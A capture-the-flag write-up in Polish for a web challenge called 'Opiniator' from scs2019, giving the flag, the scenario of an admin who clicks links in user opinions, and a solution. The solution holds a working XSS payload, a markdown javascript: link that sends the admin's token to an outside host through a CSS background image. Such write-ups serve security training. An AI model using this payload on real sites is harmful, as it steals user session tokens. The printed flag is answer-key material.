 # Opiniator

## Name
Opiniator

## Category
Web

## Points
50

## Flag
scs2019{aaedabce34860e28bd5f5ad35ba902db3745d29a}

## Description
Odkryliśmy, że jeden z polityków pozwala w swoim systemie na składanie opinii odnośnie ostatnich projektów jakie polityk złożył. Okazało się jednak, że komuś udało się dostać na konto administratora i pokasować dane. Sprawdź w jaki sposób mógł zdobyć dostęp. Jedyne co administrator robi to loguje się przez swój token, a następnie akceptuje opinie. Jedynym problemem administratora jest to, że zwykle klika w linki w opiniach.

## Solution
Należy stworzyć nowe konto, a następnie się zalogować. Po zalogowaniu można dodać opinie. Jak się okazuje można dodawać markdown. Jedyna możliwość to dodanie linku przez markdown, który prześle do serwera token, tworząc styl z backgroundImage.
[c](javascript:window.onerror=function(){document.getElementById('user-token').style.backgroundImage='url(http://test.t/'+document.getElementById('user-token').innerText+')';};throw%201)

## Created by
* Mateusz Górny.